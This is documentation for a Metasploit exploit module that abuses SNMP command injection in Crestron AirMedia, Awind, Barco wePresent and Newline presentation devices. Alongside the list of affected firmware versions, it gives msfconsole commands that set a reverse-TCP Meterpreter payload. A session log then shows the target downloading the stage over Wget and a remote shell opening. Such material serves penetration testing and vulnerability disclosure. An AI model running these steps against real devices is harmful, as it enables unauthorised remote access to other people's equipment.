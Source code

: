 ## Description

This module exploits a vulnerability found in AwindInc and OEM'ed products where untrusted inputs are fed to `ftpfw.sh` system command, leading to command injection.

Note: a valid SNMP read-write community is required to exploit this vulnerability.

## Vulnerable Devices

The following devices are known to be affected by this issue:

* Crestron Airmedia AM-100 <= version 1.5.0.4
* Crestron Airmedia AM-101 <= version 2.5.0.12
* Awind WiPG-1600w <= version 2.0.1.8
* Awind WiPG-2000d <= version 2.1.6.2
* Barco wePresent 2000 <= version 2.1.5.7
* Newline Trucast 2 <= version 2.1.0.5
* Newline Trucast 3 <= version 2.1.3.7

Other devices might be affected by the same issue but lack of access to firmware forbids me from confirming that. See https://github.com/QKaiser/awind-research for full list of similar devices.

## Verification Steps

1. Start `msfconsole`
2. Do: `use exploit/linux/snmp/awind_snmp_exec`
3. Do: `set payload linux/armle/meterpreter/reverse_tcp`
4. Do: `set RHOST [IP]`
5. Do: `set LHOST [IP]`
6. Do: `run`

You should get a session.

## Scenarios

```
msf5 > use exploit/linux/snmp/awind_snmp_exec
msf5 exploit(linux/snmp/awind_snmp_exec) > set payload linux/armle/meterpreter/reverse_tcp 
payload => linux/armle/meterpreter/reverse_tcp
msf5 exploit(linux/snmp/awind_snmp_exec) > set RHOSTS 192.168.100.2
RHOSTS => 192.168.100.2
msf5 exploit(linux/snmp/awind_snmp_exec) > set LHOST 192.168.100.1
LHOST => 192.168.100.1
msf5 exploit(linux/snmp/awind_snmp_exec) > check

[*] Target system is Crestron Electronics AM-100 (Version 2.6.0.6)
[+] 192.168.100.2:161 The target is vulnerable.
msf5 exploit(linux/snmp/awind_snmp_exec) > run

[*] Started reverse TCP handler on 192.168.100.1:4444 
[*] Using URL: http://0.0.0.0:8080/u70HALC
[*] Local IP: http://192.168.1.10:8080/u70HALC
[*] Injecting payload
[*] Injection successful
[*] Triggering call
[*] Trigger successful
[*] Client 192.168.100.2 (Wget) requested /u70HALC
[*] Sending payload to 192.168.100.2 (Wget)
[*] Sending stage (806872 bytes) to 192.168.100.2
[*] Command Stager progress - 100.00% done (113/113 bytes)
[*] Meterpreter session 2 opened (192.168.100.1:4444 -> 192.168.100.2:38009) at 2019-03-28 11:01:41 +0100
[*] Server stopped.

meterpreter > sysinfo
Computer     : Crestron.AirMedia-1.1.wm8750
OS           :  (Linux 2.6.32.9-default)
Architecture : armv6l
BuildTuple   : armv5l-linux-musleabi
Meterpreter  : armle/linux
```

## References

* https://github.com/QKaiser/awind-research
* https://qkaiser.github.io/pentesting/2019/03/27/awind-device-vrd/
